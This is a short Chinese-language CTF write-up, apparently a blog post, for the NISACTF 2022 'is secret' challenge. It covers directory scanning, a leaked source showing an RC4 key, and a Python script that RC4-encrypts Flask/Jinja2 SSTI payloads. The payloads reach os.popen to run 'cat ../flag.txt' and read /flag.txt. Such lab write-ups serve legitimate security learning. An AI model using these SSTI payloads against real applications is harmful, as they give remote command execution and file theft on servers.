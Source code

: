 # 【NISACTF 2022】is Secret


# [NISACTF 2022]is secret

## 思路
* 进入没信息，用dirsearch扫网站
* 发现可以传参，?secret=32423452523
* 报错后发现源码泄露
  * 存在一个RC4加密（看到密钥）
  * 存在SSTI模板注入

* 使用脚本把secret内容加密传入（RC4是对称加密）
* 使用SSTI-Flask模板注入

## EXP
- RC4加密代码

&gt; 找了大佬的

```
import base64
from urllib.parse import quote
def rc4_main(key = &#34;init_key&#34;, message = &#34;init_message&#34;):
    # print(&#34;RC4加密主函数&#34;)
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))
    # print(&#34;原来的 s 盒：%s&#34; % s_box)
    j = 0
    for i in range(256):
        j = (j &#43; s_box[i] &#43; ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print(&#34;混乱后的 s 盒：%s&#34;% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print(&#34;调用加密程序成功。&#34;)
    res = []
    i = j = 0
    for s in plain:
        i = (i &#43; 1) % 256
        j = (j &#43; box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] &#43; box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = &#34;&#34;.join(res)
    print(&#34;加密后的字符串是：%s&#34; %quote(cipher))
    return (str(base64.b64encode(cipher.encode(&#39;utf-8&#39;)), &#39;utf-8&#39;))
#固定rc4
rc4_main(&#34;HereIsTreasure&#34;,&#34;{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;cat ../flag.txt&#39;).read()}}&#34;)
#{{&#39;&#39;.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)(&#39;/flag.txt&#39;).read()}}
```

- SSTI模板注入
- 找到os命令执行`{{&#39;&#39;.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)(&#39;/flag.txt&#39;).read()}}`

## 总结
* 信息查找
* RC4加密
* SSTI模板注入

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-nisactf-2022is-secret/  

